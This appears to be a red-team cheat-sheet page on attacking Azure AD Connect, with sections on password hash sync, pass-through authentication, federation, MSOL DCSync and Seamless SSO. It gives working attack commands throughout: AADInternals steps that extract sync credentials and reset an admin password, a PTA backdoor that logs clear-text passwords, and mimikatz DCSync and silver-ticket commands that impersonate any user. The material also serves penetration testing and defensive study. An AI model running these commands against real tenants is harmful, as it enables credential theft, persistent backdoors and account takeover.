 # Azure AD - AD Connect and Cloud Sync

| Active Directory                  | Azure AD          |
|-----------------------------------|-------------------|
| LDAP                              | REST API'S        |
| NTLM/Kerberos                     | OAuth/SAML/OpenID |
| Structured directory (OU tree)    | Flat structure    |
| GPO                               | No GPO's          |
| Super fine-tuned access controls  | Predefined roles  |
| Domain/forest                     | Tenant            |
| Trusts                            | Guests            |

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* For **PTA**, we can attack the agent
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* For **Federation**, connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password
    * extract the certificate from ADFS server using DA


## Password Hash Synchronization

Get token for `SYNC_*` account and reset on-prem admin password

```powershell
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```


## Pass-Through Authentication

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```

## Federation

* [Golden SAML](https://resources.khulnasoft.com/active-directory/ad-adfs-federation-services/)


## AD Connect - Credentials

* [dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes

* **ADSyncDecrypt**: Decrypts the credentials fully on the target host. Requires the AD Connect DLLs to be in the PATH. A similar version in PowerShell was released by Adam Chester on his blog.
* **ADSyncGather**: Queries the credentials and the encryption keys on the target host, decryption is done locally (python). No DLL dependencies.
* **ADSyncQuery**: Queries the credentials from the database that is saved locally. Requires MSSQL LocalDB to be installed. No DLL dependencies. Is called from adconnectdump.py, dumps data without executing anything on the Azure AD connect host.

Credentials in ADSync : `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`


## AD Connect - DCSync with MSOL Account 

You can perform **DCSync** attack using the MSOL account.

Requirements:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.


## AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## References

* [Introduction to Microsoft Entra Connect V2 - Microsoft](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory - Dirk-jan Mollema - 1st apr. 2019](https://www.youtube.com/watch?v=JEIR5oGCwdg)
* [Impersonating Office 365 Users With Mimikatz - Michael Grafnetter - January 15, 2017](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [Azure AD Overview - John Savill's Technical Training - Oct 7, 2014](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English - Openness AtCEE - Jan 9, 2014](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Azure AD connect for RedTeam - Adam Chester @xpnsec -  2019-02-18](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure AD Kerberos Tickets: Pivoting to the Cloud - Edwin David - February 09, 2023](https://trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud)
* [DUMPING NTHASHES FROM MICROSOFT ENTRA ID - Secureworks](https://www.secureworks.com/research/dumping-nthashes-from-microsoft-entra-id)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)